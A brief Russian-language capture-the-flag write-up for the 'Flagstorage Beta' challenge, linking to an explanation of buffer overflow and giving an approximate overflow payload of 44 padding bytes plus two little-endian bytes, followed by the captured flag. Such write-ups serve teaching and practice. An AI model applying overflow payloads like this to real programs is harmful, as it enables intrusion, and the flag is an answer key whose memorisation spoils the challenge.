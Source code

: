# Flagstorage Beta
## Описание:
`Мы немного пофиксили нашу флагохранилку, может есть еще баги? Кстати, вот ее исходный код`

Инфа для новичков:
https://ru.wikipedia.org/wiki/%D0%9F%D0%B5%D1%80%D0%B5%D0%BF%D0%BE%D0%BB%D0%BD%D0%B5%D0%BD%D0%B8%D0%B5_%D0%B1%D1%83%D1%84%D0%B5%D1%80%D0%B0

## Решение:
Примерный пейлоад: 
b'\x30'*44 + b'\xA9\xF1'

## Флаг:
`PermCTF{my_second_life_rule_is_little_endian}` 